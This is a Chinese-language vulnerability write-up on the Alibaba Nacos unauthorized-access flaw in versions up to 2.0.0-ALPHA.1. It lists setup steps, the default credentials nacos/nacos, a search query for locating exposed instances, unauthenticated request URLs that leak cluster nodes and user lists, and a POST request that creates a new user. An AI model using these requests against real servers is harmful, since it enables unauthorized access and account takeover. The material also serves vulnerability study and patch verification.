










# Alibaba Nacos 未授权访问漏洞

## 漏洞描述

2020年12月29日，Nacos官方在github发布的issue中披露Alibaba Nacos 存在一个由于不当处理User-Agent导致的未授权访问漏洞 。通过该漏洞，攻击者可以进行任意操作，包括创建新用户并进行登录后操作。

## 漏洞影响

<a-checkbox checked>Nacos <= 2.0.0-ALPHA.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Nacos"</a-checkbox></br>

## 环境搭建

<a-alert type="success" message="https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1" description="" showIcon>
</a-alert>
<br/>

```shell
wget https://github.com/alibaba/nacos/releases/tag/2.0.0-ALPHA.1
tar -zxvf nacos-server-2.0.0-ALPHA.1.tar.gz
./startup.sh -m standalone
```

默认账号密码 **nacos/nacos**




## 漏洞复现

可以再项目的 issues 中看到大量的关于越权的安全问题的讨论


https://github.com/alibaba/nacos/issues/1105








这里我们在登录后任意一个位置看一下请求，并在未授权的情况下看是否可以访问





退出用户后在前台访问这个 url

```
/nacos/v1/core/cluster/nodes?withInstances=false&pageNo=1&pageSize=10&keyword=
```




可以发现以及泄露了 **ip节点** 等数据,同样我们查看用户列表的请求并在前台访问

```
/nacos/v1/auth/users?pageNo=1&pageSize=9
```







这里可以发现对用户的请求是完全没有过滤的，可以通过未授权的情况获取用户的敏感信息

我们尝试创建用户并抓包




返回下列创建成功


```plain
{"code":200,"message":"create user ok!","data":null}
```

同样的我们简化请求

```plain
POST /nacos/v1/auth/users?
username=peiqi&password=peiqi
```





